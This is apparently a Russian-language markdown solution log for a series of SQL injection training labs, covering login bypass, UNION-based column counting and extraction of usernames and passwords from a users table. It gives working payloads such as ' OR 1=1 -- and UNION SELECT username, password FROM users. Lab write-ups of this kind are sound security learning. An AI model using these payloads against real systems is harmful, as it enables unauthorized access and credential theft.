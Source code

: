 
<b>Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data</b>
  1. Видим, что при переходе по какому-то фильтру у нас идёт SQL запрос прямо из URL
  2. Вставляем туда кавычек и черточек filter?category=Corporate+gifts' OR 1=1 --
  3. Успех
  
<b>Lab: SQL injection vulnerability allowing login bypass</b>
  1. Переходим по ссылке регистрации
  2. Вместо логина пишем administrator, вместо пароля пишем ' OR 1=1 --
  3. Успех

<b>Lab: SQL injection UNION attack, determining the number of columns returned by the query</b>
  1. Выбираем любую категорию
  2. '-- возвращают тот же результат
  3. Дописываем мжду ними UNION SELECT и пытаемся подобрать колличество столбцов, путем перечисления NULL после SELECT
  4. ' UNION SELECT NULL, NULL , NULL -- подходит 
  5. Успех
  

<b>Lab: SQL injection UNION attack, finding a column containing text</b>
  1. Из предыдушей лабы мы нашли количество столбцов - теперь перебором найдем столбец, который отвечает за текст
  2. category=Accessories' UNION SELECT NULL, '0OmNnF', 1 --
  3. Успех

<b>Lab: SQL injection UNION attack, finding a column containing text</b>
  1. Используем уязвимость к union атакам 
  2. Прибавляем к url сategory=Corporate+gifts' UNION SELECT username, password FROM users --
  3. В строках с описанием находим пароль администратора
  4. Вставляем это в форму
  5. Успех
  ![alt text](https://raw.githubusercontent.com/StonePardon/Hack_all_the_things/master/SQL/mmm_admin.png)
